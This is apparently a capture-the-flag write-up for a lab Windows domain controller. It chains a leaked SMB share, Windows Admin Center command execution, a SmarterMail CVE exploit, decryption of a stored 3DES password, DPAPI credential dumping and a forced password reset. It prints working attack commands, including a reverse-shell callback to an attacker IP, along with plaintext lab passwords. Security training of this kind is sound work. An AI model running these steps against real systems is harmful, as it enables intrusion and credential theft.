

# danglingtree.htb

>
>
> **OS:** Windows\
> **Difficulty:** Medium\
> **IP:** `10.10.x.x`\
> **Date:** 03-07-2026

***

### TL;DR

Guest SMB share leaks a PDF with anderson.w's credentials. Windows Admin Center on 6600 gives RCE as that user. Pivot to SmarterMail (17017), exploit CVE-2026-24423 for svc\_mail, decrypt noah.b's 3DES password, DPAPI-loot alex.o, ForceChangePassword on jake.h, then ESC7 for domain escalation.

**Chain:**&#x20;

SMB share > pdf > anderson.w > windows admin center RCE > smartermail RCE > decrypt password > dpapi loot > forcechangepassword > ESC7 using custom scripts

***

### Box Info

|                |                              |
| -------------- | ---------------------------- |
| **Name**       | danglingtree.htb             |
| **OS**         | Windows                      |
| **Difficulty** | Medium                       |
| **Release**    | Released on 8th August, 2026 |
| **Key skills** |                              |

***

### 1. Recon

#### 1.1 Port scan

```bash
# Nmap 7.99 scan initiated Wed Sep  2 02:24:34 2026 as: /usr/lib/nmap/nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /opt/_NOTES/results/danglingtree/danglingtree.htb/scans/_full_tcp_nmap.txt -oX /opt/_NOTES/results/danglingtree/danglingtree.htb/scans/xml/_full_tcp_nmap.xml danglingtree.htb
Nmap scan report for danglingtree.htb (10.129.78.88)
Host is up, received user-set (0.094s latency).
rDNS record for 10.129.78.88: DC.danglingtree.htb
Scanned at 2026-09-02 02:24:34 CEST for 636s
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE            REASON          VERSION
53/tcp    open  domain             syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec       syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-09-03 20:33:15Z)
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap               syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?         syn-ack ttl 127
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=danglingtree-DC-CA/domainComponent=danglingtree
| Issuer: commonName=danglingtree-DC-CA/domainComponent=danglingtree
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-26T05:34:19
| Not valid after:  2114-03-26T05:44:18
| MD5:     9054 595f c5e0 bb67 628f f4fc 8d82 a8cf
| SHA-1:   9733 440c 1fd9 f7c9 db9e d4e8 69b7 7b8e 8e71 7781
| SHA-256: fb01 7a29 c4a9 3bee db84 2c1d 77e4 6cd3 d00b 89d8 8229 a712 c4ca db44 3678 29a0
| -----BEGIN CERTIFICATE-----
<...>
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds?      syn-ack ttl 127
464/tcp   open  kpasswd5?          syn-ack ttl 127
593/tcp   open  ncacn_http         syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap           syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
3268/tcp  open  ldap               syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap           syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
6600/tcp  open  ssl/mshvlm?        syn-ack ttl 127
9389/tcp  open  mc-nmf             syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  ncacn_http         syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49713/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49725/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49759/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  2 02:35:10 2026 -- 1 IP address (1 host up) scanned in 636.23 seconds

```

#### 1.2 Initial observations

* Hostname / domain: dc.danglingtree.htb
* Added to `/etc/hosts`:

```
10.129.x.x     DC.danglingtree.htb danglingtree.htb DC 
```

#### 1.3 enumerating shares

After adding the domain controller to `/etc/hosts`  we run an script for enumerating the shares as a guest user. This output returns a .pdf file with credentials associated

<figure><figcaption></figcaption></figure>

When opening the .PDF file, we find credentials of the user anderson.w and can continue out pentest to the initial user

<figure><figcaption></figcaption></figure>

### 2. Foothold / Initial Access

#### 2.1 Description

> Guest SMB share leaks a PDF with anderson.w's credentials. Windows Admin Center on 6600 gives RCE as that user. Pivot to SmarterMail (17017), exploit CVE-2026-24423 for svc\_mail, decrypt noah.b's 3DES password, DPAPI-loot alex.o, ForceChangePassword on jake.h

#### 2.2 Exploitation

> port 6600

After retrieving the credentials for the AD user anderson.w, I noticed that port 6600 was running a version of Windows Admin Center. I tried logging in to the application, and this worked successfully.

<figure><figcaption></figcaption></figure>

After that, once you click on the dc gateway property, a powershell command is ran from your browser to the underlying server. The endpoint that is invoked is: `/api/services/WinREST/PowerShell/nodes/dc/invokeCommand`

<figure><figcaption></figcaption></figure>

In this case the endpoint was invoked, but I altered the payload to run a harmless test command instead. As you can see on the right, I am executing a shell command as the user `anderson.w`.

<figure><figcaption></figcaption></figure>

In the follow-up steps I created a reverse shell utilizing fahrj reverse SSH and connected using SSH.&#x20;

<figure><figcaption></figcaption></figure>

I then enumerated the services listening on localhost. Port 17017 in particular looked interesting.

<figure><figcaption></figcaption></figure>

Port 17017 was then forwarded to my localhost, and after opening at `http://127.0.0.1:17017`  the smartermail application was then found.

<figure><figcaption></figcaption></figure>

After some research I found a recent CVE for it (CVE-2026-24423) which provides a critical unauthenticated remote code execution (RCE) vulnerability in SmarterTools SmarterMail versions prior to build 9511. \
\
[https://github.com/CyberAlp0/SmarterMail-CVE-2026-24423](https://github.com/CyberAlp0/SmarterMail-CVE-2026-24423)

^ POC

**CVE-2026-24423**



^ POC file

LHOST is then set to your VPN IP address, and a port is used to serve the fake "smarterhub" instance. This results in remote code execution, giving access to the user `svc_mail`.

<figure><figcaption></figcaption></figure>

Once code execution is achieved, it is necessary to collect two files. File 1 is `SmarterMail.Standard.dll`; the second is the `settings.json` of the user account noah.b.

<figure><figcaption></figcaption></figure>

in the settings.json file of the user `noah.b`, the encrypted password can be found

<figure><figcaption></figcaption></figure>

In order to decrypt this (this is a 3DES encryption method) we utilize `dnspy` to read out the iv key that is used to encrypt/decrypt the password.

<figure><figcaption></figcaption></figure>

what we do, is retrieve the hexadecimal value of the keys, which can be found underneath

```powershell
PS C:\Users\commando\desktop\HTB_DANGLINGTREE > python3 -c 'print(bytes([180, 63, 132, 209, 16, 180, 233, 145]).hex())'
b43f84d110b4e991
Commando VM 06/27/2026 08:58:41
PS C:\Users\commando\desktop\HTB_DANGLINGTREE > python3 -c 'print(bytes([ 1, 216, 174, 230, 73, 173, 146, 39]).hex())'
01d8aee649ad9227
```

And use CyberChef to create a recipe in order to decrypt the DES encrypted password. First from base64, and lastly from the DES. This results in a valid password as the user `noah.b`.&#x20;

{% embed url="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)DES_Decrypt(%7B'option':'Hex','string':'b43f84d110b4e991'%7D,%7B'option':'Hex','string':'01d8aee649ad9227'%7D,'CBC','Raw','Raw')&input=NjZlN3BwTE9CRjdVZHpEdjd6SzZNSjFybXlVYjFDYnk&oeol=FF" %}

<figure><figcaption></figcaption></figure>

> as svc\_mail

```bash
# run as the user svc_mail and get a reverse shell as the user noah.b
.\RunasCs.exe noah.b RiverDragon#Storm25 "cmd /c C:\\users\\public.\\ssh-amd-x64.exe -b 8891 -p 5000 10.10.14.195"
```

Once you get a shell, list your credentials:

<figure><figcaption></figcaption></figure>

And utilize sharpdpapi.exe to retrieve the stored credentials

```bash
C:\Users\Public>sharpdpapi.exe credentials /password:"RiverDragon#Storm25"           

[*] Action: User DPAPI Credential Triage
[*] Will decrypt user masterkeys with password: RiverDragon#Storm25
[*] Found MasterKey : C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\dae83966-a807-4a29-8173-bb370729254a
[*] Found MasterKey : C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f

[*] User master key cache:
{dae83966-a807-4a29-8173-bb370729254a}:F7EA2D586E2C84EB9BCE15A2643D1A077A88AF55
{f53fcaba-f057-48e8-8f92-0180d274bf0f}:9979EAB03C0DF45C93ED2D50DB01EC6A6835B818

[*] Triaging Credentials for current user

Folder       : C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\
  CredFile           : 57FFB67D684C67F09E7153B9C7CC3940
    guidMasterKey    : {f53fcaba-f057-48e8-8f92-0180d274bf0f}
    size             : 490
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Enterprise Credential Data
    LastWritten      : 3/27/2026 3:03:38 PM
    TargetName       : Domain:target=PC01.danglingtree.htb
    TargetAlias      :
    Comment          :
    UserName         : alex.o
    Credential       : SunsetMountainPeak@2025 # <-- password of alex.o
```

BloodHound shows that the user alex.o has ForceChangePassword rights over the user jake.h. By abusing this, we can reset the password and gain access to the jake.h account.

<figure><figcaption></figcaption></figure>

use bloody-ad to force change the password

```bash
# force change the password of the user jake.h to testTEST12!@
bloodyAD --host '10.129.68.2' -d 'danglingtree.htb' -u 'alex.o' -p 'SunsetMountainPeak@2025' set password 'jake.h' 'testTEST12!@'
```

Once the force change password has happened, we run certipy. It can be seen that there is a ESC7 vulnerability present in the environment.

<figure><figcaption></figcaption></figure>

### 3. Privilege Escalation

#### 3.1 Description

>

```
```
